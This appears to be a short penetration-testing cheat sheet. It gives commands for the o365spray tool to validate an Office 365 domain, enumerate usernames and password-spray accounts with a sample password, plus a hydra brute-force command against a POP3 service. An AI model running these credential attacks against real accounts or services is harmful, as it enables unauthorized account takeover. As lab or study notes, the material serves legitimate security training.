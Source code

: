 #### Office 365 spray
https://github.com/0xZDH/o365spray


```shell
python3 o365spray.py --validate --domain msplaintext.xyz
```
Identify usernames 
```shell
python3 o365spray.py --enum -U users.txt --domain msplaintext.xyz        
```
Password spraying
```shell
python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --count 1 --lockout 1 --domain msplaintext.xyz
```
### Brute Force 
```shell-session
hydra -L users.txt -p 'Company01!' -f 10.10.110.20 pop3
```